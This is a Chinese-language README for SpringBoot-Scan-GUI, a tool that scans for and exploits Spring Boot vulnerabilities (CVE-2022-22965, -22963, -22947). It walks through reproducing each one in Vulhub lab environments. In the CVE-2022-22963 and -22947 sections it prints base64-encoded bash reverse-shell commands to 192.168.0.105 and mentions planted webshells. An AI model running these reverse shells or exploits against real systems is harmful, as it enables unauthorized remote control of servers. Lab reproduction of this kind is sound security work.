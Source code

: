 ![SpringBoot-Scan-GUI](https://socialify.git.ci/13exp/SpringBoot-Scan-GUI/image?font=Bitter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Diagonal%20Stripes&stargazers=1&theme=Dark)

开源工具 [SpringBoot-Scan](https://github.com/AabyssZG/SpringBoot-Scan) 的GUI图形化版本，对你有用的话麻烦点个Star哈哈~

![GUI](https://github.com/AabyssZG/SpringBoot-Scan/raw/main/pic/GUI.png)

**注意：本工具内置相关漏洞的Exp，杀软报毒属于正常现象！**

## Windows使用

```
python3 SpringBoot-Scan-GUI.py
```

也可以直接下载执行release打包好的exe程序

## Linux使用

```
python3 SpringBoot-Scan-GUI-Linux.py
```

或者使用 `wine` 来执行：

```
sudo wine SpringBoot-Scan-GUI.exe
```

## VulHub 漏洞测试环境搭建

```
git clone https://github.com/vulhub/vulhub.git
```

### 安装Docker环境

```
sudo apt-get install docker.io
sudo apt install docker-compose
```

### 搭建CVE-2022-22965

```
cd /vulhub/CVE-2022-22965
sudo docker-compose up -d
```

### 搭建CVE-2022-22963

```
cd /vulhub/CVE-2022-22963
sudo docker-compose up -d
```

### 搭建CVE-2022-22947

```
cd /vulhub/CVE-2022-22947
sudo docker-compose up -d
```

如果报错，自行修改 `.yml` 文件中映射的端口号

## 漏洞复现演示

### 一、CVE-2022-22965

#### VulHub 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)

**13exp-shell**

![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)

**13exp-shell**
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)

### 二、CVE-2022-22963

#### VulHub 环境复现

准备反弹shell：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8888 0>&1`

Kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)

#### 春秋云境 环境复现

注:云境反弹shell需使用公网服务器

服务器监听
![image](https://user-images.githubusercontent.com/73600604/218291287-9b248ffa-f4fe-4195-b665-ba333aa5721c.png)

![image](https://user-images.githubusercontent.com/73600604/218291341-66317042-a214-48dd-81c8-59bd22ac7a02.png)
![image](https://user-images.githubusercontent.com/73600604/218291366-7eb7e58b-54ca-4d72-bd0e-f6bc6fa4367f.png)


### 三、CVE-2022-22947

#### VulHub 环境复现

同样准备反弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8889 0>&1`

kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
![image](https://user-images.githubusercontent.com/73600604/218257247-eb1ec709-dcaa-4855-8890-c263c15bc890.png)

## 项目Star统计

![star](https://starchart.cc/13exp/SpringBoot-Scan-GUI.svg)
